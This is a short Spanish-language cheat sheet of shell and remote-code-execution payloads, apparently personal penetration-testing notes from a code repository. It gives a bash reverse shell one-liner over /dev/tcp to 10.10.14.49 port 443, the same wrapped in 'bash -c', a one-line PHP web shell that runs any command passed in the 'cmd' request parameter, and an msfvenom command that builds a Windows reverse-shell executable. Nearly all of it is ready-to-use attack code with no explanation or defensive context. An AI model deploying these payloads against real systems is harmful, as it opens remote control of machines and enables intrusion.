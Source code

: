 # SHELLs y y RCE
Aqui iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes manereas de crear shells en linux.

La manera mas directa de crear una reverse shell en linus es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicarselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>

## PHP

Ejecución de comandos

<code>
  <?php system($_REQUEST["cmd"]); ?>
</code>

## MSFVENOM

### Fichero EXE
<pre>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
</pre>

